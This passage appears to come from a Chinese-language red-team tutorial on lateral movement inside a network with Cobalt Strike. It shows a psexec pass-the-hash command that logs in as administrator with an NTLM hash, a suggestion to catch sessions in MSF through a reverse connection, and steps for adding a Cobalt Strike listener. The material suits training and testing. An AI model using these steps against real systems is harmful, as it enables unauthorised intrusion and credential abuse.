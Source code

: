 ```bash
shell psexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178
```

[![](assets/1702372940-a9da75025298b2c47fda3a34362d83a0.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/11.png)

因 cs 无法操作交互式命令，也可引用`MSF`回显反弹接受会话  
CS 创建监听

CS 添加 listener  
左上角，`cobalt strike -> listeners -> ADD`

[![](assets/1702372940-ac0b7b4203c0c98807f3cb43ecc802fc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/12.png)
